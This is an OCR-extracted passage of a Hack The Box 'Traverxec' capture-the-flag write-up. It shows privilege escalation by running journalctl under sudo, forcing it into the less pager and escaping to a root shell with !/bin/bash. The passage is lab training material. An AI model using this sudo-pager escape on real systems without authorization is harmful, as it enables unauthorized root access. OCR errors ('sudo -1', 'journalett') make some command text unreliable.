 ![](Maszyny/Linux/Traverxec/Pasted%20image%2020210802205354.png)

I tried to view the sudo config with sudo -1 , but it requires david's password.
Exploiting journalctrl
I'll look up journalctrl on gtfobins, and there is a sudo option. It's quite short, simply saying:
| sudo journalett !/bin/sh
The trick here is that journalctrl will output to stdout if it can fit onto the current page, but into
less if it can't. Since I'm running it with -n 5, that means only five lines come out, so I need to
shrink my terminal to smaller than 5 lines, and I'll get sent into less still as root.
I'll start with a small terminal, and run the command as I can as root:
root@kali:-/hackthebox/traverxec-10.10.10.165
File Edit View Search Terminal Help
david@traverxec:-/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
[25] 0:bash 1:bash 2:bash 3:bash 4:ssh 5:nc 6:ssh-Z
"kali" 14:51 22-Nov-19
When I hit enter, I'm in less (viewing lines 1-3):
root@kali:-/hackthebox/traverxec-10.10.10.165
File Edit View Search Terminal Help
-- Logs begin at Fri 2019-11-22 00:00:54 EST, end at Fri 2019-11-22 14:51:36 EST.
Nov 22 11:45:02 traverxec sudo[1931): pam_unix (sudo: auth): auth could not identify pa
Nov 22 11:45:02 traverxec sudo (1931): www-data : command not allowed ; TTY=pts/1 ; PW
Lines 1-3
[25] 0:bash 1:bash 2bash 3Abash 4:ssh5:nc 6:5sh-Z "kali" 14:51 22-Nov-19
Now I can just type !/bin/bash , and I'm at a root shell:
